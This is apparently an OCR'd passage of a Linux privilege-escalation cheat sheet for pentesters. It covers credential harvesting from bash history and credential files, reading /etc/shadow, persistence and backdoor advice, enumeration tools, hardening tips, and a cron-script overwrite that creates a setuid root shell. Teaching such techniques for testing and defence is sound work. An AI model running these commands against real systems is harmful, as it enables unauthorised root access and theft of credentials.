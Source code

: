 #### Credential Harvesting
##### a. **Bash History**:
```
cat ~/.bash_history
```
##### b. **Config Files**:
Check for hardcoded passwords in:
```
~/.ssh/config
~/.git-credentials
/var/www/html/config.php
```

#### Post Exploitation: What to Do After Escalation
- Dump password hashes: `cat /etc/shadow`
- Install a backdoor or persistent shell.
- Exfiltrate sensitive files (but **only in legal pentesting scenarios**).
- Use `cron`, `rc.local`, or systemd for persistence.

#### Defenses & Hardening Tips

| Hardening Area                | Recommended Actions                                        |
| ----------------------------- | ---------------------------------------------------------- |
| **File Permissions**          | Enforce least privilege, avoid world-writable files        |
| **Patch Management**          | Regularly update kernel & software                         |
| **Logging & Auditing**        | Use `auditd`, `journald`, and centralized log monitoring   |
| **Disable Unused Services**   | Reduce attack surface                                      |
| **Secure Sudo Configuration** | Use `sudoers` with `NOPASSWD` only if absolutely necessary |
| **Container Security**        | Avoid running Docker containers as root unless required    |
#### Privilege Escalation Scripts & Frameworks

| Tool                                                                                   | Description                         |     |
| -------------------------------------------------------------------------------------- | ----------------------------------- | --- |
| **[LinPEAS](https://github.com/carlospolop/PEASS-ng)**                                 | Full-featured Linux enum script     |     |
| **[Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)** | Suggests kernel-level exploits      |     |
| **GTFOBins**                                                                           | Priv-escalation using Unix binaries |     |
| **[pSpy](https://github.com/DominicBreuker/pspy)**                                     | Process snooping without root       |     |
| **[LES](https://github.com/mzet-/linux-exploit-suggester)**                            | Lightweight exploit suggester       |     |

#### 16. Cron Job Misconfigurations
The `cron` daemon schedules tasks using `crontab`. Misconfigurations can lead to root privilege escalation.
##### a. Writable Script in Root Cron
If root runs a cron job with a user-writable script: 
```
ls -la /etc/cron.d/ /etc/cron.daily/
```
**Exploit**:  
Overwrite the script:
```
echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /etc/cron.daily/backup
```
